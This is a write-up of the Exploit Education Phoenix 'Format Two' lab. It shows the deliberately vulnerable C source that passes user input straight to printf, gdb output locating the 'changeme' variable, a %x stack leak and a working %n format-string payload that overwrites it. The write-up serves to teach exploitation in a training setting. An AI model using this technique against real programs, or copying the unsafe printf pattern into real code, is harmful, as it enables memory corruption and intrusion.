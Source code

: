 ```yaml
---
title: " Exploit Education | Phoenix | Format Two"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

The goal of this level is to use the format string vulnerability to write to a memory address **changeme**.

```
$ gdb -q /opt/phoenix/amd64/format-two
Reading symbols from /opt/phoenix/amd64/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+115>:	call   0x40066d <bounce>
   0x0000000000400705 <+120>:	mov    eax,DWORD PTR [rip+0x2003e5]        # 0x600af0 <changeme>
   0x000000000040070b <+126>:	test   eax,eax
.....
```

Here we can see the address we want to write to is **0x600af0** which is not exploitable because it has bad characters that will terminate the input and ignore everything after it :(

Bad characters:

- \x00	(Null)
- \x09	(Tab)
- \x0a	(New line)
- \x0d	(Carriage return)
- \x20	(Space)

So we switch gears to the 32bit binary.

```
$ gdb -q /opt/phoenix/i486/format-two 
Reading symbols from /opt/phoenix/i486/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0804859b <+111>:	call   0x8048515 <bounce>
   0x080485a0 <+116>:	add    esp,0x10
   0x080485a3 <+119>:	mov    eax,ds:0x8049868
   0x080485a8 <+124>:	test   eax,eax
....
```

Now the address of **changeme** is **0x8049868**, good.

First we should know where our input is stored in the stack.

```
$ /opt/phoenix/i486/format-two "AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd89b 100 0 f7f84b67 ffffd6f0 ffffd6d8 80485a0 ffffd5d0 ffffd89b 100 3e8 41414141 25207825 78252078 20782520 25207825Better luck next time!
```

We can see our input **41414141** which is **AAAA** at offset 12.

To write to an address we user the **%n** which writes the number of characters so far to a memory address.

So we can replace **AAAA** with the address of **changeme** and replace the last **%x** with **%n** to write to that address.

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %x \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8 8049868 
Better luck next time!
```

Notice we write the address in little endian.

We could also use the direct parameter access format using **%12$x** instead of all these **%x** but it doesn't work all the time (and apparently doesn't work here).

# Solution:

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8  
Well done, the 'changeme' variable has been changed correctly!
```